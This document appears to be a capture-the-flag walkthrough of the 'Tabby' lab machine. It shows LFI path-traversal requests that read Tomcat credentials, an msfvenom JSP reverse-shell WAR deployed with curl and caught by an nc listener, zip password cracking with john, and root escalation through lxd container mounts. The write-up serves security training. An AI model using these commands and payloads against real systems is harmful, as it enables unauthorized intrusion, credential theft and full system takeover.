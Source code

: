 # Tabby
```
Difficulty: Easy
Operating System: Linux
Hints: Trues
```
## Initial Enumeration
Running nmap scan (TCP) on the target shows the following results:
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Mega Hosting
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
As we can see the machine is running ubuntu, so without further doing let's dig into port 80.
As we poke around on the site we can see that all the links are pointing to de index page except this one ```http://megahosting.htb/news.php?file=statement``` since the parameter looks a lot like it is doing a file inclusion, let's try to exploit this and try to leverage an LFI.  
We can open the request in burp and try different patterns:  
```
GET /news.php?file=../news.php HTTP/1.1
Host: megahosting.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```
And we can see the code of the actual news.php file. Since the code is not executed, it means that we cannot turn the LFI into RCE.  
```
HTTP/1.1 200 OK
Date: Thu, 21 Apr 2022 07:35:18 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 123
Connection: close
Content-Type: text/html; charset=UTF-8

<?php
$file = $_GET['file'];
$fh = fopen("files/$file","r");
while ($line = fgets($fh)) {
  echo($line);
}
fclose($fh);
?>
```
As we can see the file is using ```fopen()```, if instead it used ```include()``` the code would have been executed instead than just being printed, and we would have had the chance to turn this LFI into RCE.  
In this case when we have include to exfiltrate php code we can use php filter function (e.g: ```php://filter/convert.base64-encode/resource=news.php```).  
Now let's try to enumerate files of tomcat, relying on [HackTricks for tomcat](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat), as we can see there, we can enumerate users by including the following file.  
```
GET /news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml HTTP/1.1
Host: megahosting.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```
As we can see we get the list of users that can authenticate against tomcat as admin:  
```
[... SNIP ...]
<role rolename="admin-gui"/>
<role rolename="manager-script"/>
<user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
[... SNIP ...]
```
Now that we have credentials for tomcat let's try to leverage this attack vector in order to gain an initial foothold.

## Foothold
As we open tomcat manager page we can see the following error message:  
```
403 Access Denied

You are not authorized to view this page.

By default the Manager is only accessible from a browser running on the same machine as Tomcat. If you wish to modify this restriction, you'll need to edit the Manager's context.xml file.
```
However, according to [HackTricks for tomcat](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat) we do not need to use the manager gui to upload a war, we can simply use a curl command.  
So, now, let's prepare our payload with msfvenom:  
```
root@kali Tabby ]$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.17 LPORT=9001 -f war -o revshell.war                                                                                                                               
Payload size: 1091 bytes                                   
Final size of war file: 1091 bytes                         
Saved as: revshell.war
```
And use the following curl command to deploy the war file:  
```
[root@kali Tabby ]$ curl --upload-file revshell.war -u 'tomcat:$3cureP4s5w0rd123!' "http://10.10.10.194:8080/manager/text/deploy?path=/shell2"                                                                                               
OK - Deployed application at context path [/shell2]
```
Now we can set up a listener, and as we hit port 9001 we can gain a shell as user tomcat.  
```
root@kali:~/Documents/HTB/Boxes/Tabby# nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.194] 48468
tomcat@tabby:~$ id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
```

## User
Now that we have an initial foothold, following our standard approach, we can run linPEAS looking for possible privilege escalation vectors.    
After we run linPEAS, we can notice a backup file that is pretty non-standard:  
```
╔══════════╣ Backup files (limited 100)
-rw-r--r-- 1 ash ash 8716 Jun 16  2020 /var/www/html/files/16162020_backup.zip
[... SNIP ...]
```
Now, let's download the archive and see what do we have.  
As we try to open the archive, we can see that it is password-protected, so, let's try to use john to crack the password:  
```
[root@kali Tabby ]$ zip2john backup.zip > backup.hash   
[root@kali Tabby ]$ cat backup.hash                        
backup.zip:$pkzip$5*1*1*0*8*24*7db5*dd84cfff4c26e855919708e34b3a32adc4d5c1a0f2a24b1e59be93f3641b254fde4da84c*1*0*8*24*6a8b*32010e3d24c744ea56561bbf91c0d4e22f9a300fcf01562f6fcf5c986924e5a6f6138334*1*0*0*24*5d46*ccf7b799809a3d3c12abb83063af3c6dd538521379c8d744cd195945926884341a9c4f74*1*0*8*24*5935*f422c178c96c8537b1297ae19ab6b91f497252d0a4efe86b3264ee48b099ed6dd54811ff*2*0*72*7b*5c67f19e*1b1f*4f*8*72*5a7a*ca5fafc4738500a9b5a41c17d7ee193634e3f8e483b6795e898581d0fe5198d16fe5332ea7d4a299e95ebfff6b9f955427563773b68eaee312d2bb841eecd6b9cc70a7597226c7a8724b0fcd43e4d0183f0ad47c14bf0268c1113ff57e11fc2e74d72a8d30f3590adc3393dddac6dcb11bfd*$/pkzip$::backup.zip:var/www/html/news.php, var/www/html/favicon.ico, var/www/html/Readme.txt, var/www/html/logo.png, var/www/html/index.php:backup.zip                                          
[root@kali Tabby ]$ john --wordlist=/usr/share/wordlists/rockyou.txt backup.hash                                      
Using default input encoding: UTF-8                        
Loaded 1 password hash (PKZIP [32/64])                     
Will run 2 OpenMP threads                                  
Press 'q' or Ctrl-C to abort, almost any other key for status                                                         
admin@it         (backup.zip)                              
1g 0:00:00:01 DONE (2022-04-22 10:16) 0.8264g/s 8560Kp/s 8560Kc/s 8560KC/s adornadis..adj071007                       
Use the "--show" option to display all of the cracked passwords reliably                                              
Session completed.
```
And we found a password.  
If we extract the zip file we do not see anything interesting, so we can try to use the cracked password against 'ash' the only user available in this box:  
```
tomcat@tabby:/home$ ls
ash
tomcat@tabby:/home$ su - ash
Password:
ash@tabby:~/
```
And we successfully gain access.

## Root
Once we log in, following our standard approach, we can run linPEAS looking for possible privilege escalation vectors.    
After we run linPEAS, we can notice that user ash is part of lxd group:
```
═════════════════════════════════════════╣ Basic information ╠═════════════════════════════════════════
                                         ╚═══════════════════╝
OS: Linux version 5.4.0-31-generic (buildd@lgw01-amd64-059) (gcc version 9.3.0 (Ubuntu 9.3.0-10ubuntu2)) #35-Ubuntu SMP Thu May 7 20:20:34 UTC 2020
User & Groups: uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
Hostname: tabby
```
As we did for [shocker](https://github.com/lucabodd/htb-walkthroughs/blob/main/Shocker.md) we know that we can leverage this group to create a linux container and mount the rootfs. Ounce the machine is booted and the rootfs is mounted we will be able to write any file on the box and even drop an ssh key for root.  
LXD is Ubuntu’s system container manager. This is similar to virtual machines, but using lightweight linux containers.  
The lxd group should be considered harmful in the same way the docker group is.  
Any member of the lxd group can immediately escalate their privileges to root on the host operating system.
To Exploit this vulnerability, first of all we need to run the following commands on our local machine:
```
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder/
bash build-alpine
```
After we run this command we can transfer the ```alpine-v3.15-x86_64-20220422_1026.tar.gz``` image to the remote server, and run the following command.
```
lxc image import ./alpine-v3.15-x86_64-20220422_1026.tar.gz --alias alpine
```
We do not get any ```error: mkdir /.config: permission denied``` as did happened for [shocker](https://github.com/lucabodd/htb-walkthroughs/blob/main/Shocker.md), hence we can proceed with the exploit.  
```
lxc image import ./alpine-v3.15-x86_64-20220422_1026.tar.gz --alias alpine
lxc image list # verify that the image is loaded
lxc init alpine alpine-container -c security.privileged=true
lxc config device add alpine-container alpine-device disk source=/ path=/mnt/root recursive=true
```
finally, we can start the container and run a bash shell:
```
lxc start alpine-container
lxc exec alpine-container /bin/sh
```
However, we mounted the host “/” directory to the directory “/mnt/root” in the alpine container.  
So if we visit “/mnt/root”, we can see the content of the “/” directory of the host OS.
```
ash@tabby:/dev/shm$ lxc exec alpine-container /bin/sh                                                            
~ # id                                                     
uid=0(root) gid=0(root)   
~ # cat /mnt/root/root/root.txt
309d17dcbfbe5ee7dba81f0079b10982
```

